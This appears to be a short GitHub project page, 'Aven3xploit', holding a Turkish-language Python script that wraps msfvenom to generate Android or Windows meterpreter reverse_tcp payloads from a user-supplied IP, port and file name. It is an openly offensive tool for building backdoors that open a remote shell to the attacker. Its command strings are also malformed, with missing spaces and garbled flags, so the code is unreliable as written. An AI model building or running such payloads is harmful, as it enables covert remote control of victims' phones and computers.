 # Aven3xploit
Örnek Proje 

import os

os.system("apt install figlet")
os.system("figlet Hosgeldin Aven !!")

ip = input("Local veya Dış IP Gir: ")
port = input("Portunuz : ")

kytyrı = input("Kayıt Edilecek Dosya Yolu : ")

giris8 = """
================
[1] Android Exploit  <===
[2] Windows Exploit  <===
===============
      """
print(giris8)

apk = input("Exploit'in Adını Giriniz : ")
payload = input("Numara Seç : ")

if payload == '1':
    os.system("msfvenom -p android/meterpreter/reverse_tcp LHOST=" + ip + "LPORT=" + port + "-f -o" + kytyrı + "R >" + apk)
    
if payload == '2':
	os.system("msfvenom -p windows/meterpreter/reverse_tcp LHOST=" + ip + "LPORT=" + port + "-f exe" + kytyrı)

#=================================
#Superman Tarafından Yapılmıştır.
#Aven William
#=================================
